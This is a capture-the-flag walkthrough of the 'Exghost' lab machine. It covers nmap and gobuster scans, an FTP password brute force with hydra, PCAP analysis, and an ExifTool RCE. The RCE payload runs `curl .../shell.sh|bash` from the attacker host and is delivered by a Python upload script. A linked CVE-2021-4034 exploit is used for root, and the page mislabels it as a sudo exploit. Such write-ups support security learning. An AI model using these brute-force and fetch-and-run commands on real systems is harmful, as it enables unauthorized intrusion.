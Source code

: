 # Exghost

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 20:36 +08
Nmap scan report for 192.168.183.183
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp open   ftp
80/tcp open   http
```

FTP and HTTP.

### Port 80 Dead End

Port 80 just shows a 403 page:

<figure><img src="../../../.gitbook/assets/image (602).png" alt=""><figcaption></figcaption></figure>

Running directory scans only shows one directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.183 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.183
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 20:54:36 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 320] [--> http://192.168.183.183/uploads/]
```

### FTP Brute Force --> Wireshark

Anonymous credentials don't work with this FTP system, and because we had no other choice, I started brute forcing the FTP login with `hydra`. This took quite a while, but eventually I found some credentials:

{% code overflow="wrap" %}
```
$ hydra -I -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt 192.168.183.183 ftp

[21][ftp] host: 192.168.183.183  login: user  password: system
```
{% endcode %}

Great! Now we can login and view the files present:

```
$ ftp 192.168.183.183 
Connected to 192.168.183.183.
220 (vsFTPd 3.0.3)
Name (192.168.183.183:kali): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
```

The `backup` file was a PCAP file:

{% code overflow="wrap" %}
```
$ file backup         
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```
{% endcode %}

We can open this up in `wireshark` and view the TCP streams. Within TCP Stream 1, we can find this HTTP request:

<figure><img src="../../../.gitbook/assets/image (1661).png" alt=""><figcaption></figcaption></figure>

Seems that we are able to upload files through POST requests at `exiftest.php`:

```
$ curl http://192.168.183.183/exiftest.php
There is no file to upload.
```

From the PCAP file, we can actually export the `exiftest.php` file:

<figure><img src="../../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

Interestingly the second `exiftest.php` was the response, and here's the contents:

```
$ cat exiftest\(1\).php 
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>
```

### File Upload --> Exiftool RCE

It appears that the website is accepting images, and then running `exiftool` on it as a response. This version of `exiftool` is vulnerable to an RCE exploit.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

We can create the payload by following the PoC:

```
$ exiftool -config eval.config runme.jpg -eval='system("curl 192.168.45.184/shell.sh|bash")'
    1 image files updated
```

We can then upload it using this script:

```python
import requests
url = 'http://192.168.183.183/exiftest.php'
files = {'myFile': open('runme.jpg', 'rb')}
print(requests.post(url, files=files).text)
```

After uploading it, we would get a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (1641).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Exploit --> Root

I ran a `linpeas.sh` scan on the machine. This found that `sudo` was outdated:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                 
Sudo version 1.8.31
```

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}

We can just download the Python script and execute it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (3425).png" alt=""><figcaption></figcaption></figure>
